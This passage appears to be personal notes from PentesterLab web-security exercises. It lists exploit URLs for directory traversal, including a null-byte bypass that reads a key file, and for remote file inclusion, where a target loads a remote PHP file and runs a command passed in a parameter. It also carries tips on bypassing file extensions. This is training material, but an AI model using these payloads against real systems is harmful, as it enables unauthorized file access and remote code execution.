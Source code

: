 exploit:
`http://ptl-0d8845c8-0b63b08f.libcurl.st/file.php?file=/var/www/../../pentesterlab.key`

notes:

### 03
chl:
url:
exploit:
`http://ptl-ded93138-2771189a.libcurl.st/file.php?file=../../pentesterlab.key%00`
notes:
- the app is automatically adding `.png` to `file=hacker`
- null byte `%00` cuts whatever is comming after a string concat


## File include

### 01
chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-08a17b2b-81673f5e.libcurl.st/?page=intro.php

exploit:
`http://ptl-08a17b2b-81673f5e.libcurl.st/?page=https://assets.pentesterlab.com/test_include_system.txt&c=/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

notes:
- https://assets.pentesterlab.com/test_include_system.txt to execute any php command on RFI

### 02
chl:
/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509

url:
http://ptl-f93fe94d-4bfe7663.libcurl.st/?page=intro

exploit:
`http://ptl-f93fe94d-4bfe7663.libcurl.st/?page=https://assets.pentesterlab.com/test_include_system.txt?blah=&c=/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`
`http://ptl-f93fe94d-4bfe7663.libcurl.st/?page=https://assets.pentesterlab.com/test_include_system.txt%00&c=/usr/local/bin/score e6cb11a5-8d77-412b-9cfc-d99fc6bbe509`

notes:
- remember to bypass file extensions with `%00`


## LDAP

### 01
chl:
url:
http://ptl-d2cd17de-3069b85b.libcurl.st/
